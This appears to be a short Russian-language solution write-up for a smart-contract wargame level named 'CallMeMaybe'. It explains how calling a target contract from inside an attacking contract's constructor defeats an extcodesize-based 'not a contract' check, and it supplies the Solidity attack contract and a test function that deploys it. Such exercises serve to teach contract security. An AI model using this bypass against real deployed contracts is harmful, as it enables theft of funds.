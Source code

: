 ### Модификатор callMeMaybe должен быть пройден, что возможно, если msg.sender не является контрактом. Проверка extcodesize(addr) в модификаторе возвращает 0 для обычных адресов или для контракта, вызываемого в его собственном конструкторе

### Для вывода $$$ нам нужно пройти проверку 
```
if (tx.origin == msg.sender)
```

### Вызывая функцию внутри контструктора контракта, мы сможем обойти проверку 

### Делаем просто 
```
contract Attack {
    constructor(CallMeMaybe target) payable {
        target.hereIsMyNumber();
    }
}
``` 
### и затем
```
function testExploitLevel() public {
        /* YOUR EXPLOIT GOES HERE */
        Attack attack = new Attack(instance);
        
        checkSuccess();
    }
```